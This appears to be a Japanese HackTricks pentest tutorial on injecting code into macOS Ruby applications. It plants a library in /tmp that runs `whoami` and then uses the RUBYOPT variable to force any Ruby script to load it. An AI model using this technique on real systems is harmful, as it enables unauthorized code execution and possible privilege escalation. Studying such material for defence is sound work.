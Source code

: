 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

この環境変数を使用すると、**ruby**が実行されるたびに**新しいパラメータ**を**追加**することが可能です。パラメータ**`-e`**を使用して実行するrubyコードを指定することはできませんが、**`-I`**および**`-r`**のパラメータを使用してライブラリのロードパスに新しいフォルダを追加し、**ロードするライブラリを指定**することができます。

ライブラリ**`inject.rb`**を**`/tmp`**に作成します:
```ruby:inject.rb
puts `whoami`
```
どこにでも次のようなRubyスクリプトを作成します:
```ruby:hello.rb
puts 'Hello, World!'
```
その後、任意のRubyスクリプトを次のように読み込ませます:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
面白い事実ですが、**`--disable-rubyopt`** パラメータを使用しても動作します:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
